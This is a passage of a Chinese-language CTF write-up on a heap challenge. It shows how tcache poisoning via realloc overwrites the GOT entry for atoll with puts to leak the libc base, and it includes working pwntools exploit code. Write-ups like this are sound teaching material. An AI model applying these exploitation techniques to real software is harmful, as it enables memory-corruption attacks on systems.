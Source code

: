 ### 泄露libc地址

程序本身并没有能够提供打印区块数据的功能，因此想要泄露libc数据就一定需要劫持控制流。
目前，栈地址未知排除ROP，将目标瞄准GOT：

```txt
off_404018 dq offset _exit  
off_404020 dq offset __read_chk
off_404028 dq offset puts
off_404030 dq offset __stack_chk_fail
off_404038 dq offset printf
off_404040 dq offset alarm
off_404048 dq offset atoll
off_404050 dq offset signal
off_404058 dq offset realloc
off_404060 dq offset setvbuf
off_404068 dq offset __isoc99_scanf
```

首先思考可不可以把唯一操作区块的外部函数——realloc替换为puts来泄露地址，笔者这时顾忌到题目限制了区块大小，不太方便构造 unsorted bin 中的区块。
因此将目标瞄准了atoll，这个函数在read_long中被调用，参数是栈上用来读入数字的buffer。可以尝试用它来泄露栈上的数据。

这时一个好主意是使用plt\[printf]代替atoll，这样就可以在栈上指哪打哪，可惜笔者做的时候并没有想到这个好主意，只是用了plt\[puts]。不过不影响，因为我遇到了第一个逆天的巧合：**在buffer+8的位置就有一个libc地址**。先介绍一下怎么覆写的：

```python
alloc(0, 0x18, b"victim")
realloc_free(0)
realloc(0, 0x18, pack(elf.got["atoll"]))
free(1)     # alloc a anonymous 0x20 chunk
alloc(1, 0x18, pack(elf.plt["puts"])+pack(0)+pack(0x4015DC))
```

第一行创建了一个0x20大小区块，第二行将其释放进入tcache，同时保留了这个指针。
第三行使用了realloc，realloc发现这个区块大小正常就直接放行了，从而我们可以覆盖fd指针为got\[atoll]。
第四行使用free的漏洞来申请一个匿名区块，分配完之后再下一个区块就是atoll了。
第五行将atoll覆盖为plt\[puts]，并顺便把realloc覆盖为一个普通 `ret` 的地址，原因后面再说。

*这里需要提一嘴，我使用了匿名区块来解决这一问题：非0的栏位无法进行alloc。不过在复盘时，从网上的大佬那边发现可以通过一种非常巧妙的方式来将栏位置零，同时又不干扰已经位于tcache中的atoll地址，从而将后续利用流程也变得直观一些。
可以通过realloc将区块变大，然后再free。这样就可以free到别的大小的tcache中，并且根本不用关注key的检查，也不会将atoll的地址覆盖，一举两得。
参考地址见[Binary Exploitation [pwnable.tw] - Realloc - Tainted Bits](https://www.taintedbits.com/2020/07/05/binary-exploitation-pwnable-tw-realloc/)*

接下来泄露libc地址，由于buffer+8就有，因此简简单单就可以泄露了：

```python
io.recvuntil(b"choice: ")
io.sendline(b"1")
io.recvuntil(b"Index:")
io.sendline(b"1111111\n")   # just padding
io.recvuntil(b"1111111\n")
libc_base = unpack(io.recvuntil(b'\x7f')+b'\0\0')-0x1e570a
success("libc_base: "+hex(libc_base))
```
